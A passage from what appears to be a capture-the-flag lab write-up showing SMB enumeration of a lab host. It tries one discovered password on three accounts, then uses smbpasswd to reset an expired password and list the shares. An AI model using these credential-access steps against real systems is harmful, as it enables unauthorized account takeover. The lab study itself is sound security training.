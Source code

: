 We get the password `Fabricorp01` working for three users: `tlavel`, `bnielson` and `bhult`. Let us see if we find any interesting smb-shares.

## SMB - Port 445

Let us try to list all shares for each user with smbmap:

```bash
root@darkness:~# for user in tlavel bnielson bhult; do smbmap -u $user -p Fabricorp01 -H 10.10.10.193; done
[!] Authentication error on 10.10.10.193
[!] Authentication error on 10.10.10.193
[!] Authentication error on 10.10.10.193
```

We do get an authentication error for all of the 3 users... Let us try smbclient.

```bash
root@darkness:~# smbclient -U tlavel -L //10.10.10.193/
Enter WORKGROUP\tlavel password: Fabricorp01
session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE
root@darkness:~# smbclient -U bnielson -L //10.10.10.193/
Enter WORKGROUP\bnielson password: 
session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE
root@darkness:~# smbclient -U bhult -L //10.10.10.193/
Enter WORKGROUP\bhult password: 
session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE
```

Seems like we have valid credentials, but we have to change our current password to be able to login. Luckily, Kali has a tool for that `smbpasswd`.

### Changing passwords with smbpasswd

We can now change the password of one of these users via `smbpasswd`.

```bash
root@darkness:~# smbpasswd -U tlavel -r 10.10.10.193
Old SMB password: Fabricorp01
New SMB password: Chr0nOs$!_
Retype new SMB password: Chr0nOs$!_
Password changed for user tlavel on 10.10.10.193
```

Now that we have changed the password for `tlavel`, we should be able to list the smb-shares.

```bash
root@darkness:~# smbclient -U tlavel -L //10.10.10.193/
Enter WORKGROUP\tlavel password: Chr0nOs$!_

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        HP-MFT01        Printer   HP-MFT01
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        print$          Disk      Printer Drivers
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```
